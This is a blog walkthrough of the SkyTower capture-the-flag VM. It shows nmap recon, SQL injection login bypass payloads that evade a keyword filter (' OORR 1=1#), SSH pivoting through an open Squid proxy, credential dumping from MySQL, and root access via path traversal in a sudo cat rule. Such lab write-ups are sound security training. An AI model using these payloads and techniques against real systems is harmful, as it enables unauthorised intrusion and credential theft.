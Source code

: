```yaml
---
layout: post
title: "SkyTower writeup"
subtitle: "~ Walkthrough of SkyTower machine ~"
date: 2017-10-31
author: V3ded
category: CTF
tags: blog ctf pentesting 
finished: true
---
```


# Introduction

Next walkthrough [VM](https://www.vulnhub.com/entry/skytower-1,96/) was made by Telspace Systems for a BSidesCPT security summit. Rated intermediate difficulty and assigned to 'todo' machines as preparation for OSCP I decided to give it a try. Time to start! 

***

# Recon

Netdiscovery to find the initial SkyTower's IP:

```console
 Currently scanning: 192.168.31.0/16   |   Screen View: Unique Hosts                                           
                                                                                                               
 22 Captured ARP Req/Rep packets, from 9 hosts.   Total size: 1320                                             
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.12    [REDACTED]           1       60      Apple, Inc.                                                 
 192.168.1.12    [REDACTED]           2       120     AzureWave Technology Inc.                                   
 192.168.1.1     [REDACTED]           8       480     ADB Broadband Italia                                        
 192.168.1.16    08:00:27:73:b0:c     9       2       120  PCS Systemtechnik GmbH                                      
 192.168.1.10    [REDACTED]           1       60      Unknown vendor                                              
 192.168.1.11    [REDACTED]           1       60      Unknown vendor                                              
 192.168.1.14    [REDACTED]           1       60      LG Innotek                                                  
 0.0.0.0         [REDACTED]           2       120     Apple, Inc.                                                 
 192.168.1.17    [REDACTED]           4       240     Apple, Inc.                                                 

```

Our target is **192.168.1.16**!

Proceed with nmap scan to find open ports and their services:

```console
root@EdgeOfNight:~# nmap -A -T5 -sS 192.168.1.16

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-31 12:43 GMT
Warning: 192.168.1.16 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.1.16
Host is up (0.00034s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:GET
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:73:B0:C9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.2
OS details: Linux 3.2, Linux 3.2 - 3.16
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.34 ms 192.168.1.16

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.75 seconds
```

Nmap scan shows, that there is a running HTTP Apache web server. Upon loading the page in a browser we get a result:

<img src="/img/blog/skytower/skytower-01.png">

An interesting page with login functionality! I wonder how it reacts to SQL statements? Login crashes when we input a simple apostrophe - `'` inside username field. Clear sign of an SQL injection. 

<img src="/img/blog/skytower/skytower-02.png">  

A common login bypass would be a crafted request which looks similar to: `' OR 1=1#`. Unfortunately there is a filter which prevents the injection:
 
<img src="/img/blog/skytower/skytower-03.png">  

`OR` and `=` completely dissapeared from the query. Hmm... A certain filter is blocking SQL keywords to prevent injections from happening. If you don't know what to do, you should read an [article](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF) about bypassing filters / WAFs by OWASP. After enough trial and error I found a string which worked. `' OORR 1=1#` bypasses the defenses and puts us past the login!  

<img src="/img/blog/skytower/skytower-04.png">  

Alternatively, `' || 1=1#` will work as well. 

***

# Exploitation

* Username: john
* Password: hereisjohn

Nice! Before using the credentials we need to get past `filtered` port issue. If you remember, our *nmap* scan only showed SSH as filtered. Not opened. We can use **Squid proxy** (port:*3128*) to solve the problem. Doing a bit of enumeration, it is easy to see that the proxy isn't password protected and therefore we can add it to our proxychains list for later usage. 

Edit `/etc/proxychains.conf` file and add:
```console
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
http	192.168.1.16	3128 #SQUID PROXY
``` 

After that just connect to SSH with proxychains:
```console
proxychains ssh john@192.168.1.16
``` 

<img src="/img/blog/skytower/skytower-05.png">

Unfortunately the connection immediately drops. Most probably because `.bashrc` file has an *exit* instruction somewhere within it. To circumvent this, I just rename `.bashrc` and retry the login. This can be done with:

<img src="/img/blog/skytower/skytower-06.png">

Because `.bashrc` file has no longer an effect on our session, we are greeted with a nice shell! 

> Theoretically you can run any command by the previously mentioned method. Feel free to bypass the restriction any way you feel.

***

# Privilege Escalation

Browsing around the filesystem I notice there is an active instance of *MYSQL* database running. You can either guess the correct password (default) or find it inside `/var/www/login.php`.  

<img src="/img/blog/skytower/skytower-07.png">

Funny or not, you can also see the filter which prevented us from doing simple SQL injections. Enough of talking though. Connect to the database and get the sweet credentials!

```console
john@SkyTower:/var/www$ mysql -u root -p
Enter password: root

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> USE SkyTech;
Database changed

mysql> SHOW TABLES;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
```
If some of the queries are unclear I recommend reading a MySQL [cheatsheet](https://www.digitalocean.com/community/tutorials/a-basic-mysql-tutorial) by DigitalOcean. 

Afterwards I tried to login as Wiliam, but his credentials don't work. However Sara's do! She has the same *exit* annoyance thingy in `.bashrc` as John, but we already know how to go around it :).

<img src="/img/blog/skytower/skytower-08.png">

Then do `sudo -l`

<img src="/img/blog/skytower/skytower-09.png">

which reveals we can run `/bin/cat /accounts/` with root privileges. This alows for a path traversal and `cat`-ing of protected content. In my case the root flag.

```console
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ 
```console

Just do `su root`, supply in the password and BAAM! 

<img src="/img/blog/skytower/skytower-10.png">

## Rooted!

***

Conclusion:
In my opinion a prety solid box. I learnt few new things and had fun while doing so. What more can you wish for?! My thanks goes to **bitvijays** for providing me with guidance when I got stuck once or twice :). Check out his blog at <http://bitvijays.github.io/> ! If there are any questions feel free to reach out to me by sending an email or leaving a comment down bellow.  


~V3 
